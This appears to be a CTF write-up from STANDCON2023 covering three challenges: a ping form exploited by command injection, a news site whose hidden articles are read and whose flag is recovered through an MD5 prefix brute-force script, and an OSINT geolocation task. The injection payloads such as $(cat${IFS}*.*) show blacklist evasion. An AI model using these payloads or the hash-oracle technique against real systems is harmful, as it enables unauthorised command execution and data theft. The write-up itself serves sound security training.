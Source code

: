 # STANDCON2023 CTF Writeups

## Table Of Contents

1. [Web Baby](#web-baby)
2. [Ye Olde News Website](#ye-olde-news-website)
3. [Relic Race](#relic-race)

## Web Baby

The website contains a function to ping an IP Address. Looking through the source code, we can deduce that multiple restrictions are set, namely:

1. Input cannot be longer than 15 characters
2. Many special characters are blacklisted

The characters below are the few that are not blacklisted:

* {}, (), $

​![image](assets/image-20231209205806-d5jxrso.png)​

Notice how the code takes our user input without sanitizing it. This makes the program vulnerable to **command injection**. After searching through cheatsheets such as **payloadallthethings**, I eventually found out  *$()*  can be used for command injection.

​`$(whoami)`​: *bad address 'baby_web'*

​`$(pwd)`​: *bad address '/'*

​`$(ls)`​: *no result was shown, hinting that all files and directories are hidden in '/'*

​`$(ls${IFS}*)`​: *ls: can't open 'root': Permission denied*

As I was unsure of where the flag was located, and was unable to list the directory, I looked into alternatives to ls, and managed to find this [article/blogpost](https://ubunlog.com/en/alternativas-al-comando-ls/). In the article, I found this:

```
for **list hidden files** we will execute:
	echo *.*
```

After using \*.* with the payload `$(ls${IFS}*.*)`​, we received the output *bad address 'flag.txt'*

Replace ls with cat to get the flag! `$(cat${IFS}*.*)`​ *bad address 'STANDCON{1nj3ct1On_@+_uR_c0MM@Nd}'*

NOTE: `$(cat${IFS}fla*)`​ can be used as well, so long as the **payload is &lt;= 15 characters**.

## References:

https://semgrep.dev/docs/cheat-sheets/go-command-injection/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection

https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/

https://security.stackexchange.com/questions/219605/command-injection-filtering-bypass

https://www.cobalt.io/blog/a-pentesters-guide-to-command-injection

## Ye Olde News Website

These are the directories of interest found after examining the JavaScript on the web application:

```javascript
<script id="setup">
let HOST = "/"
let params = (new URL(document.location)).searchParams;
let article = params.get("article");
document.getElementById('title').innerHTML = article.split(".")[1];

fetch(HOST+'dir?category=article')
   .then(response => response.text())
   .then(text => document.getElementById("articleList").innerHTML=text)

setTimeout(() => {
fetch(HOST+"getArticle?maxlength=200&name="+article)
   .then(response => response.text())
   .then(text => document.getElementById("content").innerHTML=text.replace(/\\n/g,"<br>").slice(1, -1) + '...<br><br><b>Subscribe to read more!</b>')

document.getElementById('setup').remove();
},1000)
</script>
```

/dir?category=.

* use '.' to list out files since most filenames contain that character

  ​![image](assets/image-20231208233128-hcm8avm.png)​

/getArticle?maxlength=10000&name=article3.secret.txt

* get the text itself without it being cut off.
* maxlength grabs the first x number of characters specified in the url variable.	![image](assets/image-20231208233042-a49nwuv.png)​

Confidential articles are not to be read as shown below. Only the hash of such files are provided. Since the hash of the file constantly changes based on the maxlength variable, which is the first x number of characters in the file, we can use that to brute force the flag.

​![image](assets/image-20231208233216-vwfz7cs.png)​

​![image](assets/image-20231208233232-vicok9t.png)​

Grab the hash of the flag when max length = 10. This is because we already know the first 9 characters of the flag, `STANDCON{`​. Thus, we only need to brute force from the 10th character onwards.

Append all possible characters to the current flag, hash that appended text via md5 and compare hashes. A POC is provided below:

```python
#!/usr/bin/python3
import sys
import hashlib
# Use the latest hash and the current flag you possess to brute force the NEXT CHARACTER in the flag.
# Eg. md5 hash of first 10 chars of the flag as argument1, first 9 characters of flag as argument2.
currenthash = sys.argv[1]
currentflag = sys.argv[2]
wordlist='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_=+\\|~`[]{}'

for x in wordlist:
	newflag = currentflag + x
	hashedNewFlag = hashlib.md5(newflag.encode('UTF-8')).hexdigest()
	if(hashedNewFlag == currenthash):
		print("Latest Character Found!")
		print("Flag: " + newflag)
```

flag: STANDCON{Y3_0LD3_S1MPL3_FL4G}

​![image](assets/image-20231208125817-77o5wtw.png)​

References:

https://stackoverflow.com/questions/1009860/how-can-i-read-and-process-parse-command-line-arguments

## Relic Race

We were provided a screenshot of the thief's device. It contains an image of a QR Code, and satellite map image of an unknown location.

​![screenshot](assets/screenshot-20231209212451-adhfb6f.png)​

Decode the qr code using this website:

* https://products.aspose.app/barcode/recognize#/recognized
* M1BOSCO/MARK MR       1A11A1 SINLHRBN XXX  331Y26J 37    00

from the ticket, my team initially deduced that Mark is going from Singapore to Harbin. However, that is NOT the location in the image because China drives on the right side of the road, not the left as shown in the image.

After using chatGPT, we eventually realised Mark is travelling from London Heathrow to Singapore.

​![image](assets/image-20240601150625-0piyaix.png)​

As the hint leads to overpass turbo, a graphical mapping tool which utilises openstreetmaps, I utilised a script I found to locate all **gas stations near banks** in London Heathrow.

```
<!--
This is an example Overpass query.
Try it out by pressing the Run button above!
You can find more examples with the Load tool.
-->
<query type="node">
  <has-kv k="amenity" v="bank"/>
  <bbox-query {{bbox}}/>
</query>
<query type="node">
  <around radius="300"/>
  <has-kv k="amenity" v="fuel"/>
</query>

<print/>
```

Search all located nodes found, 17 in my case, and you will eventually find the exact location as shown in the initial **screenshot.png** file provided to us.

​![image](assets/image-20231208174208-rhkikcw.png)​

​![image](assets/image-20231208174224-9q7ruwt.png)​

Grab the coordinates and place it into google maps to double check:

​![image](assets/image-20231208174249-37rjtg6.png)​

Try the postal code of both the bank and the fuel station. In the end, the postal code of the fuel station is the correct answer for the flag.

* 312 Seven Sisters Rd, Greater, Finsbury Park, London N4 2AW, United Kingdom
* STANDCON23{N4 2AW}

## References

https://help.openstreetmap.org/questions/33089/proximity-search-node-with-tag1-near-node-with-tag2

https://wiki.openstreetmap.org/wiki/Map_features#Aerialway

‍
